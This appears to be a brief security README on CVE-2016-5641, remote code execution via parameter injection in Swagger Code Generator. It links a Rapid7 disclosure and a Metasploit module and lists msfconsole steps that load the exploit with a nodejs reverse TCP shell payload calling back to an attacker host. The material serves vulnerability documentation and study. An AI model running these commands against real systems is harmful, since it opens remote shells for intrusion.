 ## 0x00 CVE-2016-5641-RCE

Swagger CodeGen

[swagger官网](https://swagger.io/)  

[分析链接](https://blog.rapid7.com/2016/06/23/r7-2016-06-remote-code-execution-via-swagger-parameter-injection-cve-2016-5641/)  

This disclosure will address a class of vulnerabilities in a Swagger Code Generator in which injectable parameters in a Swagger JSON or YAML file facilitate remote code execution. This vulnerability applies to NodeJS, PHP, Ruby, and Java and probably other languages as well.  

## 0x01 [MS的攻击脚本](https://github.com/rapid7/metasploit-framework/pull/7015)

[脚本](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/fileformat/swagger_param_inject.rb)  

> Start msfconsole  
> use exploit/multi/fileformat/swagger_param_inject  
> set PAYLOAD nodejs/shell_reverse_tcp  
> set LPORT 4444  
> set LHOST 1.2.3.4  
> run  



